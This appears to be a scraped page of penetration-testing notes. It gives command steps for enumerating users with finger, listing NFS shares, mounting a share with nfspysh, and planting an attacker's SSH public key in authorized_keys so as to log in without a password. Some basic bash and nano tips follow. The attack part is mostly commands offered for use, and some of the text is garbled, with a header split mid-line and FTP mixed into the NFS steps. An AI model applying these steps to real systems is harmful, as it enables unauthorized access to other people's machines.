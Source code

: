 [https://github.com/corneacristian/Notes](https://github.com/corneacristian/Notes)

## Enumerate Users via Finger

`finger $user@$IP`

## Show nfs shares available

`showmount -e $IP`

## Use nfspysh to mount share and create .ssh directory

nfspysh -o server=192.168.0.20:/home/user

mkdir .ssh

cd .ssh

## Transfer attacker public key to host
 with FTP

put /tmp/authorized\_keys

exit

## Login to SSH server with no password

SSH\_AUTH\_SOCK=0 ssh user@192.168.0.20

## Bash Basics

\[+\] nano Shortcuts

```markup
ctrl v			Next page.
ctrl y			Previous page.
ctrl w			Where is (find).
ctrl k			Cut that line of test.
ctrl x     	Exit editor.
```

\[+\] Create a text file:

```markup
touch file		Creates an empty file.
ifconfig > tmp	pipe the output of a command
nano file
```

\[+\] Create a file and append text to it:

```markup
ifconfig > tmp     
echo >> tmp
ping google.com -c3 >> tmp
```
